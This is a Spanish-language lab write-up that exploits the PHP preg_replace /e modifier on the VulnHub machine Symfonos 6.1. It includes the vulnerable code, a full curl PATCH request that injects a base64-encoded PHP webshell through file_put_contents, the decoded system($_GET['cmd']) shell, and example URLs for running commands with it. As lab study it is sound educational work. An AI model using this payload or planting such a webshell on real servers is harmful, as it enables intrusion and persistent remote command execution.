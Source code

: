 
---

# Explotación de vulnerabilidad con `preg_replace /e` y uso de `file_put_contents`

## Contexto del ataque

Hemos explotado una API vulnerable que nos permitía modificar el contenido de la web. El origen de la vulnerabilidad se encuentra en el uso inseguro de la función `preg_replace` con el modificador `/e`, el cual evalúa el contenido como código PHP. Este modificador fue **deprecado en PHP 5.5 y eliminado en PHP 7**, precisamente porque abre la puerta a ejecuciones de código arbitrario.

El ataque consistió en enviar una petición `PATCH` a la API con un payload malicioso que aprovechaba esta vulnerabilidad para ejecutar código en el servidor.

**Nota:** para este ejemplo nos servimos de la explotación realizada en la [Máquina Symfonos 6.1](https://www.vulnhub.com/entry/symfonos-61,458/)

## Código vulnerable

```php
<div class="container">
    <div class="col-md-12">
        <?php
        while ($row = mysqli_fetch_assoc($result)) {
            $content = htmlspecialchars($row['text']);
            
            echo $content;
        
            preg_replace('/.*/e',$content, "Win");
        }
        ?>
    </div>
</div>
````

En este fragmento, la entrada del usuario (`$row['text']`) termina siendo ejecutada como código PHP debido al modificador `/e`. Aunque se intenta sanitizar con `htmlspecialchars`, esa sanitización afecta solo a lo que se imprime con `echo`, no al `preg_replace`. El `preg_replace` evalúa directamente el contenido de `$content` y nos permite inyectar código arbitrario.

## Petición enviada

El payload se inyectó a través de una petición `PATCH`:

```bash
curl -s -X PATCH "http://<IP_OBJETIVO>:5000/ls2o4g/v1.0/posts/1" \
 -H "Content-Type: application/json" \
 -b "token=<JWT>" \
 -d $'{"text": "file_put_contents(\'cmd.php\', base64_decode(\'PD9waHAKICBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsKPz4K\'))"}'
```

En este caso, el campo `text` contiene código PHP que será ejecutado por el `preg_replace` vulnerable.

## Payload utilizado

El payload que se ejecuta en el servidor es:

```php
file_put_contents('cmd.php', base64_decode('PD9waHAKICBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsKPz4K'))
```

### Explicación

1. **`file_put_contents()`**  
    Es una función nativa de PHP que escribe datos en un archivo. En este caso:
    
    - El primer argumento `'cmd.php'` indica el nombre del archivo a crear.
        
    - El segundo argumento es el contenido que se va a escribir.
        
    
    Esta función simplifica lo que antes se hacía con `fopen` + `fwrite` + `fclose`.
    
2. **`base64_decode()`**  
    Dentro de `file_put_contents` se decodifica un payload en base64. Ese payload corresponde al siguiente código PHP:
    
    ```php
    <?php
      system($_GET['cmd']);
    ?>
    ```
    
    Este es un webshell muy simple que ejecuta cualquier comando del sistema que se le pase como parámetro `cmd` en la URL.
    

### Resultado

Al ejecutar el payload, se crea en el servidor un archivo `cmd.php` con el siguiente contenido:

```php
<?php
  system($_GET['cmd']);
?>
```

De esta manera, conseguimos una puerta trasera persistente en el servidor y podemos ejecutar comandos de forma remota.

## Uso del webshell

Una vez creado `cmd.php`, podemos ejecutar comandos accediendo a la URL:

```
http://<IP>/cmd.php?cmd=whoami
http://<IP>/cmd.php?cmd=ls -la
```

Esto nos da control sobre el sistema comprometido.

## Conclusión

La vulnerabilidad se origina en el uso inseguro de `preg_replace` con el modificador `/e`, que permite la ejecución de código arbitrario. Aprovechamos esta debilidad para ejecutar un payload que crea un archivo malicioso mediante `file_put_contents`. El archivo generado (`cmd.php`) es un webshell que nos permite persistencia y ejecución remota de comandos en el servidor.

---

